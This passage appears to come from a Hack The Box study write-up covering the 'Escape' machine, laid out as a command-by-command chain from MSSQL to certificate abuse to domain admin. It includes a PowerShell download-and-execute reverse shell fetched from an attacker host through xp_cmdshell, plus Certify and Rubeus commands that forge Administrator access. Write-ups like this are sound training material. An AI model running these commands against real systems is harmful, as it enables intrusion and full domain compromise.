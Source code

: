 **Key Lessons:**
- **AS-REP roasting works without any credentials**
- **BloodHound reveals complex attack paths**
- **Exchange permissions often lead to DCSync**
- **Service accounts in multiple groups = dangerous**

### Box 3: Escape (HTB) - MSSQL → Certificate Template Abuse
**Difficulty: Hard | Key Learning: ADCS (Certificate Services)**

#### Attack Path: MSSQL Login → xp_cmdshell → Certificate Abuse → Domain Admin

```bash
# Step 1: MSSQL enumeration
crackmapexec mssql 10.10.11.202 -u '' -p ''
# Result: Anonymous login allowed

# Step 2: Connect to MSSQL
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202

# Step 3: Enable xp_cmdshell
SQL> EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
SQL> EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Step 4: Get reverse shell via xp_cmdshell
SQL> xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.1/rev.ps1\")"'

# Step 5: Enumerate for certificates
# Check if ADCS is available
certutil -config - -ping
# Result: Certificate Authority found

# Step 6: Find vulnerable certificate templates
Certify.exe find /vulnerable
# Result: UserAuthentication template allows SAN specification

# Step 7: Request certificate as Administrator
Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
# Result: Certificate generated

# Step 8: Convert certificate and authenticate
# Convert to PFX format, then use with Rubeus
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:password /ptt
# Result: Administrator TGT obtained, full domain access
```

**Key Lessons:**
- **MSSQL often has dangerous configurations**
- **ADCS certificate templates can be misconfigured**
- **Certificate authentication bypasses many detections**
- **Always check for certificate services in AD environments**

---